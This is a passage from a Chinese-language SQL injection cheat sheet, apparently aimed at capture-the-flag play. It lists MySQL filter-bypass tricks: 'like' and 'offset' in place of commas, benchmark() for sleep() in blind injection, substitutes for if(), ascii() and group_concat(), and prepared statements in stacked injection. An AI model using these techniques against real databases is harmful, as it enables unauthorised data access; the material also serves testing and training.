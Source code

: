 ##### 使用like关键字 适用于substr()等提取子串的函数中的逗号

```bash
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
12
```

##### 使用offset关键字

```bash
 select * from cms_users limit 0,1;
# 等价于下面这条SQL语句
 select * from cms_users limit 1 offset 0;
123
```

## 12.过滤函数绕过

sleep() -->benchmark()
select 12,23 and sleep(1);
参数可以是需要执行的次数和表达式。第一个参数是执行次数，第二个执行的表达式
select 12,23 and benchmark(10000000,1);

ascii()–>hex()、bin()
替代之后再使用对应的进制转string即可
group_concat()–>concat_ws()
select group_concat(“str1”,“str2”);
select concat_ws(",",“str1”,“str2”);

substr(),substring(),mid()可以相互取代, 取子串的函数还有left(),right()
user() --> @@user、datadir–>@@datadir
ord()–>ascii():这两个函数在处理英文时效果一样，但是处理中文等时不一致。

##### 过滤了if函数：

```bash
if函数的判断语句
select if(substr(database(),1,1)='c',1,0);
IFNULL函数
select ifnull(substr(database(),1,1)='c',0);
case when then函数
select case substr(database(),1,1)='c' when 1 then 1 else 0 end;
123456
```

## 13堆叠注入时利用 MySql 预处理

在遇到堆叠注入时，如果select、rename、alter和handler等语句都被过滤的话，我们可以用MySql预处理语句配合concat拼接来执行sql语句拿flag。

PREPARE：准备一条SQL语句，并分配给这条SQL语句一个名字(hello)供之后调用

EXECUTE：执行命令

DEALLOCATE PREPARE：释放命令
